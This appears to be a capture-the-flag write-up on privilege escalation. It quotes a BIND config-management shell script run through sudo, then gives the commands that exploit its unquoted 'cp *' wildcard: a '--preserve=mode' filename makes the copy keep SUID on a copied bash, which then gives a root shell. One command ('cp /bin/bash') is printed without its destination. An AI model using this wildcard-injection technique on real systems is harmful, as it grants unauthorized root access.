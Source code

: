 ```bash
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi

# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done

# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else 
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
        systemctl status bind9
    else
        echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
```

The vulnerability is in the usage of the wildcard.&#x20;

```bash
cp .version * /etc/bind/named.bindmgr/
```

Because this specified a wildcard and we can run it as `root`, this means we can preserve or copy file permissions (like SUID) over to other binaries using the `--preserve=mode` flag.&#x20;

First, we need to create a `.version` file with 42 within it because the script checks for the version run. Then, we can create a folder named `--preserve=mode` which abuses the wildcard and makes the file we created a flag.&#x20;

Then, we need to do `cp /bin/bash` to our file, and run the script using `sudo`:

```bash
echo > '--preserve=mode'
cp /bin/bash
chmod 4777 bash
echo 42 > .version
sudo /usr/local/bin/bindmgr.sh
/etc/bind/named.bindmgr/bash -p
```
